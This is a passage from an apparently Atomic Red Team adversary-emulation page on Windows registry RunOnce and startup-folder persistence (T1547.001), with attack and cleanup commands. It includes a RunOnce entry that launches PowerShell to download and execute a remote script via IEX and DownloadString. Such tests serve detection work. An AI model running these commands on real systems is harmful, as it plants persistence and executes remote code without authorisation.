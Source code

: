 ```cmd
REG ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend /v 1 /d "#{thing_to_execute}"
```

#### Cleanup Commands:

```cmd
REG DELETE HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend /v 1 /f >nul 2>&1
```

<br/>
<br/>

## Atomic Test #3 - PowerShell Registry RunOnce

RunOnce Key Persistence via PowerShell
Upon successful execution, a new entry will be added to the runonce item in the registry.

**Supported Platforms:** Windows

**auto_generated_guid:** eb44f842-0457-4ddc-9b92-c4caa144ac42

#### Inputs:

| Name             | Description                    | Type | Default Value                                                               |
| ---------------- | ------------------------------ | ---- | --------------------------------------------------------------------------- |
| thing_to_execute | Thing to Run                   | path | powershell.exe                                                              |
| reg_key_path     | Path to registry key to update | path | HKLM:&#92;Software&#92;Microsoft&#92;Windows&#92;CurrentVersion&#92;RunOnce |

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
$RunOnceKey = "#{reg_key_path}"
set-itemproperty $RunOnceKey "NextRun" '#{thing_to_execute} "IEX (New-Object Net.WebClient).DownloadString(`"https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1547.001/src/Discovery.bat`")"'
```

#### Cleanup Commands:

```powershell
Remove-ItemProperty -Path #{reg_key_path} -Name "NextRun" -Force -ErrorAction Ignore
```

<br/>
<br/>

## Atomic Test #4 - Suspicious vbs file run from startup Folder

vbs files can be placed in and ran from the startup folder to maintain persistance. Upon execution, "T1547.001 Hello, World VBS!" will be displayed twice.
Additionally, the new files can be viewed in the "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup"
folder and will also run when the computer is restarted and the user logs in.
